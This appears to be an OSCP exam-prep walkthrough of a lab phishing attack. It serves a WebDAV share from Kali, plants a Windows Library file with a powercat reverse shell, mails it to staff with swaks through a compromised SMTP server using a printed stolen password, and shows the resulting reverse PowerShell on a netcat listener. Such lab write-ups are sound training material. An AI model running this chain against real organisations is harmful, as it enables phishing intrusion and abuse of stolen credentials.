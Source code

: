 ```yaml
---
description: >-
  This is a guide for the OSCP & other CTF's that may include phishing as part
  of the exam.
---
```


# OSCP Phishing Guide



## Outline

In this page we will conduct a phishing attack that goes as follows:

We open a WebDAV server on our Kali host, we create a malicious Microsoft Office Macro that we will send to the organization through a compromised Mail server. Once the victim clicks on the malicious macro it will open a reverse shell back to our Kali attack host.

## Start WebDAV Server

```shell-session
kali@kali:~$ mkdir /home/kali/beyond/webdav

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
...
: Serving on http://0.0.0.0:80 ...
```

## Create Malicious Windows Library

Next we'll create a malicious Windows Library file that we'll use to hold our reverse shell.

{% embed url="https://www.rotta.rocks/ethical-hacking/exploiting-microsoft-office/windows-library-files" %}
Create a malicious Windows Library File
{% endembed %}

Once we've created the Windows Library we transfer the Lirbary file and powercat.ps1 script to the WebDAV server.

## Send Email to Victims

In the beginning of this page we mentioned that we have access to a compromised mail server, there are various tools we can use to leverage SMTP. We will use swaks

```shell-session
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

## Success

After some time we can check back on our netcat listener and see that we successfully phished a victim.

```
elistening on [any] 4444 ...
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 64264
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> 
```

